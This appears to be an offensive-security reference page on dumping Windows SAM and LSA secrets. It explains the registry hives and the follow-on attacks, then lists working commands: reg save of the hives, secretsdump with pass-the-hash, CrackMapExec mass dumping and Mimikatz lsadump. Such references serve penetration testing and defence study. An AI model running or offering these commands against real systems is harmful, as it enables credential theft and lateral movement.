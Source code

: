 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1003.002, T1003.004 and T1003.005
---
```


# SAM & LSA secrets

## Theory

In Windows environments, passwords are stored in a hashed format in registry hives like SAM (Security Account Manager) and SECURITY.

| Hive     | Details                                                        | Format or credential material                                                                                                                                                              |
| -------- | -------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| SAM      | stores locally cached credentials (referred to as SAM secrets) | LM or NT hashes                                                                                                                                                                            |
| SECURITY | stores domain cached credentials (referred to as LSA secrets)  | <p>Plaintext passwords</p><p>LM or NT hashes</p><p>Kerberos keys (DES, AES)</p><p>Domain Cached Credentials (DCC1 and DCC2)</p><p>Security Questions (<code>L$_SQSA_&#x3C;SID></code>)</p> |
| SYSTEM   | contains enough info to decrypt SAM secrets and LSA secrets    | N/A                                                                                                                                                                                        |

SAM and LSA secrets can be dumped either locally or remotely from the mounted registry hives. These secrets can also be extracted offline from the exported hives. Once the secrets are extracted, they can be used for various attacks, depending on the credential format.

| Credential material                      | Subsequent attacks                                                                                                                                                                                            |
| ---------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Plaintext passwords                      | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md) or [silver tickets](../../kerberos/forged-tickets.md)           |
| LM and NT hashes                         | [credential spraying](../bruteforcing/password-spraying.md), [stuffing](../bruteforcing/stuffing.md), [shuffling](../credential-shuffling.md), [cracking](../cracking.md), [pass-the-hash](../../ntlm/pth.md) |
| Kerberos keys (RC4, i.e. == NT hash)     | [credential cracking](../cracking.md), [overpass-the-hash](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                       |
| Kerberos keys (DES, AES)                 | [credential cracking](../cracking.md), [pass-the-key](../../kerberos/ptk.md) or [silver tickets](../../kerberos/forged-tickets.md)                                                                            |
| Domain Cached Credentials (DCC1 or DCC2) | [credential cracking](../cracking.md)                                                                                                                                                                         |

## Practice

### Exfiltration

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```bash
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using [Volume Shadow Copy](ntds.md#volume-shadow-copy-vssadmin).
{% endhint %}

### Secrets dump

Here are some examples and tools that can be used for local/remote/offline dumping.

{% tabs %}
{% tab title="secretsdump" %}
[Impacket](https://github.com/SecureAuthCorp/impacket)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) (Python) can be used to dump SAM and LSA secrets, either remotely, or from local files. For remote dumping, several authentication methods can be used like [pass-the-hash](../../ntlm/pth.md) (LM/NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos).

```bash
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'

# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'

# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL

# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```
{% endtab %}

{% tab title="CrackMapExec" %}
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to remotely dump SAM and LSA secrets, on multiple hosts. It offers several authentication methods like [pass-the-hash](../../ntlm/pth.md) (NTLM), or [pass-the-ticket](../../kerberos/ptt.md) (Kerberos)

```bash
# Remote dumping of SAM/LSA secrets
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (local user authentication)
crackmapexec smb $TARGETS --local-auth -u $USER -p $PASSWORD --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-hash)
crackmapexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --sam/--lsa

# Remote dumping of SAM/LSA secrets (pass-the-ticket)
crackmapexec smb $TARGETS --kerberos --sam/--lsa
```
{% endtab %}

{% tab title="Mimikatz" %}
[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene** secretsdump and crackmapexec both extract security questions, if any, from the LSA. They are json formatted, UTF-16-LE encoded, and hex encoded on top of that.
{% endhint %}

## References

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}

{% embed url="http://moyix.blogspot.com/2008/02/decrypting-lsa-secrets.html" %}

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="https://webstersprodigy.net/2014/02/03/mscash-hash-primer-for-pentesters/" %}
